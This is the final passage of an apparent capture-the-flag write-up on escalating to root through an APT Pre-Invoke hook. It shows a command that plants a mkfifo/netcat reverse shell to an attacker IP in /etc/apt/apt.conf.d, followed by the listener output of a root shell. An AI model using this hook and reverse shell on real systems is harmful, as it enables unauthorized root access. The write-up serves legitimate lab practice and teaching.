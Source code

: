 > **Pre-Invoke**, **Post-Invoke**
>
> This is a list of shell commands to run before/after invoking [dpkg(1)](https://manpages.debian.org/testing/dpkg/dpkg.1.en.html). Like options this must be specified in list notation. The commands are invoked in order using /bin/sh; should any fail APT will abort.

```bash
echo 'apt::Update::Pre-Invoke {"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 4443 >/tmp/f"};' > /etc/apt/apt.conf.d/writer
```

after some time, a connection is received, probably due to a system timer updating packages

```bash
$ nc -lnvp 4443                                                                                                     
listening on [any] 4443 ...
connect to [10.10.10.10] from (UNKNOWN) [10.10.11.101] 49836
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
<redacted>
```

I hope you guys have enjoyed it!

See you in the next post :wink:
